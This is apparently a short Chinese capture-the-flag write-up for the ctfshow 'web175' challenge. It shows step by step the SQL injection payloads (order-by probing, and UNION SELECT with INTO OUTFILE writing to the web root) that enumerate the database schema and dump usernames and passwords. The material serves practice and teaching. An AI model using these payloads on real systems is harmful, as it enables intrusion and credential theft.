


# web175
1.字段数为2时数据正常返回,字段数为2
```
1' order by 1,2--+
```
2.测试回显位置
这里抓包返回数据显示查询失败
将查询结果存放到flag.txt中
```
'union select database(),schema_name from information_schema.schemata into outfile "/var/www/html/test1.txt"--+
```



```
'union select database(),table_name from information_schema.tables where table_schema='ctfshow_web' into outfile "/var/www/html/test2.txt"--+
```


```
'union select database(),column_name from information_schema.columns where table_name='ctfshow_user5' into outfile "/var/www/html/test3.txt"--+
```

```
'union select username,password from ctfshow_user5 into outfile "/var/www/html/test4.txt"--+
```



